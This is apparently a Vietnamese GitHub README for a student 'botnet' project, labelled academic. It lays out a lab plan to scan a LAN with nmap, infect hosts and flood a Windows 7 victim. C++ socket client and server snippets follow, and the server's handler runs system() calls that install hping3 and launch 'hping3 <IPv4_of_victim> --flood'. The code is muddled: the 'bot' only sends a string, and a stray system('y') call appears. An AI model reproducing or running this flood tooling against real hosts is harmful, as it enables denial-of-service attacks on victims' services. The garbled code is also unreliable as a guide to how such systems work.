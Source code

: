# Dự án xây dựng botnet dựa trên giao thức TCP/IP
- Mục tiêu của dự án là lây nhiễm botnet Client trên nhiều host (thiết bị người dùng đầu cuối) sử dụng IPv4 (AF_INET).
- Sử dụng giao thức TCP/IP, biên dịch và thực hiện trên hệ điều hành ubuntu (hoặc core linux).
- **CẢNH BÁO:** Đây chỉ là dự án mang tính chất học thuật, nghiên cứu và đưa ra hướng giải quyết và khắc phục botnet trong hệ thống mạng. Tuyệt đối không áp dụng lên hệ thống mạng nếu không được đồng ý hoặc chấp nhận. *Hành vi tấn công mạng được xem là vi phạm pháp luật*.

## Cấu hình - Kịch bản tấn công

**Cấu hình thiết bị**
|STT|Thiết bị - Hệ điều hành|Địa chỉ IPv4|
|:-|:-|:-|
|1|Attacker - Ubuntu|VMnet0 (192.168.1.0/24)|
|2|Botnet - Ubuntu|VMnet2 (192.168.0.0/24)|
|3|Victim - Windows 7|VMnet2 (192.168.0.0/24)|

**Kịch bản tấn công:**
+ Attacker sẽ tiến hành tham dò mạng nội bộ (nmap) để xác định các host có khả năng lây nhiễm botnet.
+ Sau đó, attacker sẽ lây nhiễm botnet cho các máy trong mạng LAN (user, server tải file trên mạng có chứa botnet Client). 
+ Lúc này, attacker sẽ điều khiển các client để tập trung vào tấn công flood đến host nạn nhân.
+ ***Kết quả:*** Làm cho các dịch vụ trên host bị tấn công trì trệ, không thể hoạt động.


## Botnet Client (botnetClient.cpp)

**Thiết lập địa chỉ server**

```
sockaddr_in serverAddr;
serverAddr.sin_family = AF_INET;
serverAddr.sin_port = htons(45444);
inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);
```

|Thuộc tính|Giải thích|
|:-|:-|
|`sockaddr_in`|Lưu trữ thông tin server|
|`sin_family`|Chỉ định loại địa chỉ|
|`sin_port`|Cổng kết nối Client - Server|
|`htons()`|Hàm băm dạng địa chỉ mạng|
|`inet_pton`|Chuyển đổi chuỗi địa chỉ mạng sang dạng nhị phân|

**Kết nối tới Server**

```
if (connect(clientSocket, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0)
{
    cerr << "Connection failed!" << endl;
    return -1;
}
```
|Thuộc tính|Giải thích|
|:-|:-|
|`connect()`|Kết nối đến socket của client với địa chỉ của server|

**Gửi dữ liệu đến Server**
```
string request = "terminal";
send(clientSocket, request.c_str(), request.size(), 0);
```
Gửi dữ liệu đến Server, khi kết nối thành công, client sẽ mở Terminal.

## Botnet Server (botnetServer.cpp)

```
serverAddr.sin_port = htons(PORT);
serverAddr.sin_addr.s_addr = INADDR_ANY;
```
Số cổng của Server kết nối đến Client `htons(PORT)`.
Thuộc tính `INADDR_ANY` chấp nhận kết nối từ bất kỳ địa chỉ IP nào.

**Gán địa chỉ cho socket**
```
if (bind(serverSocket, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0)
{
    cerr << "Bind failed!" << endl;
    return -1;
}
```
Gán địa chỉ IP và cổng vừa thiết lập cho socket.

**Lắng nghe kết nối**
```
listen(serverSocket, 10);
``` 
Cho phép tối đa 10 kết nối trong hàng đợi.

**Nhận dữ liệu từ client**
```
int bytesReceived = recv(clientSocket, buffer, 4096, 0);
```
Hàm `recv()` đọc dữ liệu từ client gửi đến và lưu vào `buffer`.

## Xử lý yêu cầu từ Client - Thực hiện quá trình 
```
if (request == "terminal") 
{
    cout << "Opening terminal..." << endl;
    system("gnome-terminal");
    system("sudo apt install hping3");
    system("y");
    system("sudo hping3 <IPv4_of_victim> --flood");
}
```
Nếu Server nhận được phản hồi từ Client gửi đến đáp ứng điều kiện yêu cầu "request". Server tiến hành mở Terminal, Cài đặt [HPING3](https://www.kali.org/tools/hping3/) để tiến hành ping flood.

## Biên dịch (Compile)
Cài đặt trình biên dịch để sử dụng thư viện:
`sudo apt install g++`

**Server:** `g++ botnetServer.cpp -o botnetServer`

**Client:** `g++ botnetClient.cpp -o botnetClient`

## Khởi chạy (Run)

**Server:** `./botnetServer`

**Client:** `./botnetClient`

## Kiểm thử kịch bản, chương trình tấn công botnet

**Host trước khi bị tấn công**

![](1.png)

**Host trong quá trình bị tấn công**

![](2.png)

**Host sau khi ngưng tấn công**

![](3.png)
